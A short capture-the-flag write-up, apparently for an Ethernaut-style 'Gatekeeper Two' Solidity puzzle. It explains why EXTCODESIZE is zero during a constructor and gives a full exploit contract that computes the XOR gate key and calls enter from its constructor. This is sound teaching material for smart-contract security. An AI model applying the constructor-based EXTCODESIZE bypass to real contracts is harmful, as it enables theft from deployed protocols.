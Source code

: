 ### Analysis
1) Gate Two: Note that while the initialisation code is executing, the newly created address exists but with no intrinsic body code.During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while CODESIZE should return the length of the initialization code
this means to pass gate two we'll need to call the enter function from our smart contract's constructor. 

2) Gate three: we can duplicate this logic in our own contract without having to work through each transformation

### The Exploit

~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract GatePassTwo{

    constructor(address _target){
        bytes8 _gateKey = bytes8(keccak256(abi.encodePacked(address(this)))) ^ bytes8(type(uint64).max);
        (bool success,) = address(_target).call(abi.encodeWithSignature("enter(bytes8)",_gateKey));
    }
}
~~~